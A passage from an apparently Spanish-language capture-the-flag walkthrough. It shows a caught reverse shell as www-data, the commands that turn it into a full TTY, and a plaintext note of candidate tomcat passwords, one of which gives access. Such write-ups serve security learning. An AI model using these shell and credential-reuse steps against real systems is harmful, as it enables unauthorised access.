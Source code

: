 Estando a la escucha le daremos, una vez clicado, si nos vamos a la escucha tendremos una shell con el usuario `www-data`.

```
connect to [192.168.5.145] from (UNKNOWN) [172.26.0.2] 41088
whoami
www-data
```

Ahora sanitizaremos la shell (TTY).

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user tomcat

Si nos vamos al siguiente directorio.

```shell
cd /var/www/html
```

Veremos un archivo `.txt` llamado `super_secure_note_tomcat.txt` que si lo leemos pone lo siguiente.

```
tomcat:tomcat
tomcat:tomcatel
tomcat:tomcatelmejorsuper
tomcat:tomcatelmejorsupersecure
tomcat:tomcatelmejor
tomcat:tomcatelmejorsupersecurepassword
tomcat:tomcatelmejordetodos
tomcat:tomcatelpeorperomejor
tomcat:tomcasoloasimegusta
tomcat:tomcatelmejordetodosdelmundo
```

Parece ser contraseñas para el usuario `tomcat` pero sabremos que una es la verdadera.

Si probamos la que dice `tomcat:tomcatelmejor` veremos que funciona.
